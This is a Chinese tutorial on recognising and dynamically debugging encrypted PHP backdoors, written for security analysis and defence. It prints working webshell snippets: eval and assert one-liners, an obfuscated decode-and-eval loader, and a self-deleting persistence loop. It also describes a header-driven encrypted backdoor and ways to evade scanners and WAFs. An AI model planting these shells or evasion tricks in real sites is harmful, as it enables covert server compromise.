

# 课程 P1：探秘深藏不露之马——撬开PHP加密后门 🕵️♂️




在本节课中，我们将要学习如何识别、分析和调试复杂的PHP加密后门。我们将从一个简单的后门示例开始，逐步深入到高度混淆和加密的恶意代码，并通过动态调试技术揭示其真实面目。课程内容技术性较强，但我们会用简单直白的方式讲解，确保初学者也能跟上。

## 概述：什么是PHP加密后门？

在做渗透测试或网站运维时，我们可能会接触到各种后门。后门主要用于执行恶意代码，例如常见的一句话木马 `eval($_POST['a'])`。为了增加隐蔽性，攻击者会对这些代码进行加密和混淆处理。

一个加密后门与普通后门的核心区别在于“加密”了什么。主要可以归纳为三点：
1.  **对后门本身的代码进行加密**，使其难以直接阅读。
2.  **对后门的调用方式进行加密或混淆**，隐藏真正的触发参数。
3.  **对回传的执行结果进行加密**，防止流量分析被轻易识别。

接下来，我们将通过几个具体的例子来理解这些概念。

## 第一节：如何识别一个后门？🔍

识别后门通常需要寻找一些特征。一个常见的迹象是存在 `eval` 等代码执行函数，以及一大串经过编码（如Base64）的字符串。

以下是一个简单的加密后门示例：

```php
function custom_decode($str) {
    $str = base64_decode($str);
    $str = gzinflate($str); // 相当于 gzdecode，用于老版本PHP
    for($i=0; $i<strlen($str); $i++) {
        $str[$i] = chr(ord($str[$i])-1); // 每个字符ASCII码减1
    }
    return $str;
}
eval(custom_decode("一大串加密字符串"));
```

**如何识别？**
你会发现代码中有 `eval` 函数，并且它执行的内容来自一个经过 `base64_decode`、`gzinflate` 和简单位移解密处理的字符串。这种对自身代码进行变换隐藏的操作，很可能是后门。

## 第二节：几种典型的加密后门 🛡️

上一节我们介绍了如何识别简单后门，本节中我们来看看几种更复杂、更具威胁的后门类型。

以下是几种典型的加密后门介绍：

*   **持久化后门**：这类后门旨在长期驻留系统。
    ```php
    set_time_limit(0); // 设置脚本执行时间无限
    ignore_user_abort(true); // 忽略用户断开连接，脚本继续运行
    unlink(__FILE__); // 删除自身文件
    while(1) {
        file_put_contents(‘.webshell.php‘, ‘恶意代码内容‘);
        sleep(10);
    }
    ```
    此代码会删除自身文件，但在一个无限循环中不断重新生成隐藏文件 `.webshell.php`，即使文件被删除，进程仍在运行，实现了“不死”特性。它通常还包含一个MD5校验作为密码保护，例如 `if(md5($_GET[‘pwd‘])==‘xxx‘){...}`。

*   **高度混淆后门**：这类后门通过混淆变量名和逻辑，使代码难以静态分析。
    ```php
    $_ = ‘assert‘;
    $__ = ‘phpinfo()‘;
    @$_($__);
    ```
    实际调用时，需要通过 `?_=assert&__=phpinfo()` 来触发。直接阅读代码几乎无法理解其意图。

*   **字符集限制后门**：这类后门利用Base64解码的特性，将恶意代码编码成仅由特定几个字符（如A,B,C）组成的字符串，以绕过一些简单的正则规则检测。
    例如，一句话木马 `<?php eval($_GET[‘a‘]);?>` 可以被编码成仅包含 `ABC` 的字符串，这利用了多次Base64编码和填充忽略的特性。

## 第三节：深度剖析一个复杂后门框架 🧩

前面我们看了一些后门示例，现在我们来深入分析一个功能强大、结构复杂的加密后门框架。这个后门完整实现了之前提到的三种加密：代码加密、调用方式加密和回传结果加密。

### 环境准备 🛠️

要动态调试PHP后门，你需要准备以下环境：
1.  **Web服务器**：例如 WAMP (Windows + Apache + MySQL + PHP)。
2.  **抓包调试工具**：Burp Suite，用于拦截和修改HTTP请求。
3.  **代码编辑器与调试器**：Visual Studio Code 搭配 XDebug 插件。你需要预先配置好 XDebug 与 VS Code 的调试环境。

### 样本初步分析

原始样本代码高度混淆，变量名无意义，结构混乱。第一眼无法看出其功能。我们的目标是使用 VS Code 和 XDebug 进行动态调试，让代码在运行中“说出”秘密。

**调试过程简述：**
1.  在 VS Code 中打开项目文件夹，配置 PHP 调试环境。
2.  在可疑代码行（如最后的 `eval` 或 `assert` 调用处）设置断点。
3.  启动调试，然后在浏览器中访问该后门文件。
4.  程序会在断点处暂停，此时可以在 VS Code 的变量监视窗口中观察各个变量的值。

通过跟踪变量赋值和函数调用，我们发现核心恶意代码被包装在一个由 `create_function` 创建的匿名函数中。将其代码内容复制出来，进行格式化整理后，我们得到了可读性更强的“解密”版本。

### 核心逻辑解析

清理后的代码结构清晰，主要包含以下几个部分：

1.  **密钥定义**：定义了两个用于加密解密的密钥 `$k1` 和 `$k2`。
2.  **参数接收与校验**：
    *   从 `$_SERVER[‘HTTP_REFERER‘]` 中提取URL参数。
    *   从 `$_SERVER[‘HTTP_ACCEPT_LANGUAGE‘]` 中通过一个**复杂的正则表达式**匹配出控制指令。
    *   这两个条件必须同时满足，后门逻辑才会继续执行。
3.  **密钥与指令处理**：
    *   代码使用正则匹配结果和URL参数，经过一系列字符串操作（`substr`, `strtolower`, `md5`），生成两个动态密钥 `$h` 和 `$f`。
    *   从URL参数中解析出实际要执行的Payload，但该Payload被 `$h` 和 `$f` 这两个“锁”包裹着（例如 `AA4payload2D4`）。代码会校验Payload中是否包含正确的 `$h` 和 `$f`，只有都校验通过，才会剥离它们，得到纯净的恶意指令。
4.  **Payload解密与执行**：
    *   纯净的指令本身仍是加密的，它经过了一次自定义的异或加密(`x`函数)和Gzip压缩。
    *  代码会调用 `base64_decode`、`gzuncompress` 和自定义的 `x` 解密函数对指令进行解密。
    *   解密后的PHP代码通过 `eval` 执行。
5.  **结果加密与回传**：
    *   执行结果不会直接输出。而是被放入输出缓冲区。
    *   结果同样经过 `x` 函数加密、Gzip压缩和Base64编码。
    *   为了绕过WAF或IDS，还会将Base64字符串中的 `/` 替换为 `_`，`+` 替换为 `-`。
    *   最终，加密后的结果被输出。客户端需要按相反流程解密才能看到真实结果。

**调用示例：**
一个有效的攻击请求需要精心构造：
*   `Referer` 头：包含类似 `http://target.com/path?p1=AA4&p2=...2D4` 的参数，其中嵌入了密钥和加密的Payload。
*   `Accept-Language` 头：包含像 `aB-C;q=0.0,dE-F;q=0.1` 这样符合特定正则格式的字符串，用于传递控制参数。

### 自动化利用脚本

由于手动构造上述请求极其繁琐，我们可以编写Python脚本来自动化整个过程。脚本主要功能包括：
*   根据指定的明文指令（如 `phpinfo()`），自动按反向流程进行加密，生成对应的Payload。
*   构造包含正确 `Referer` 和 `Accept-Language` 头的HTTP请求。
*   发送请求，并接收回传的加密结果。
*   自动解密结果，并显示明文。

这样，我们就拥有了一个针对该复杂后门的专用“客户端”。

## 第四节：后门的进化与防御思路 💪

在剖析了这个复杂的后门框架后，我们不禁思考：后门还能如何变得更强大？作为防御方又该如何应对？

以下是后门可能的一些进化方向：

*   **更强的隐蔽性**：可以对抗代码扫描工具（如“河马盾”）。例如，将敏感的 `create_function` 调用包裹在一个普通用户函数中返回，就能绕过一些基于特征码的静态检测。
*   **更灵活的加密**：本例中的加密算法、参数获取方式（正则表达式、HTTP头字段）都可以轻易修改，产生无数变种，就像一个灵活的“框架”。
*   **非对称加密**：使用非对称加密算法，用公钥加密Payload，后门用私钥解密。这样即使捕获到后门文件，也无法构造有效的攻击请求。
*   **进程持久化**：结合第二节提到的“不死马”技术，即使文件被删，恶意进程仍驻留内存并重新写文件。

**给开发与运维的防御建议：**
1.  **代码审计**：定期对业务代码进行安全审计，尤其是第三方组件和插件。
2.  **文件监控**：使用文件完整性监控（FIM）工具，警惕异常的文件创建、修改，特别是隐藏文件。
3.  **进程监控**：监控异常的、长期运行的PHP进程。
4.  **网络流量分析**：虽然加密后门能隐藏内容，但异常的、高频的对外HTTP请求（特别是带有特殊Header的请求）仍然是可疑信号。
5.  **最小权限原则**：Web应用程序应以最低必要权限运行，降低被利用后的影响范围。
6.  **使用WAF**：虽然高级后门能绕过简单规则，但WAF仍能阻挡大部分通用攻击和已知漏洞利用。

## 总结 📚

本节课中我们一起深入学习了PHP加密后门的世界。我们从如何识别简单的后门特征开始，逐步探讨了多种类型的加密后门，包括持久化后门、混淆后门以及利用特殊编码的后门。

课程的重点是深度剖析了一个功能全面的加密后门框架。我们学习了如何搭建动态调试环境（VS Code + XDebug），如何对高度混淆的代码进行逐步调试和分析，最终揭示了其通过HTTP头接收参数、多层校验、自定义加解密以及结果回传的完整攻击链。我们还了解到，为了实际利用这种复杂后门，编写自动化的交互脚本是必要的。

最后，我们探讨了后门技术的可能进化方向，并给出了一些基础的防御思路。安全是一个持续对抗的过程，理解攻击者的技术手段，是构建有效防御的第一步。希望本课程能帮助你更好地理解PHP后门的原理，提升代码安全和威胁分析的能力。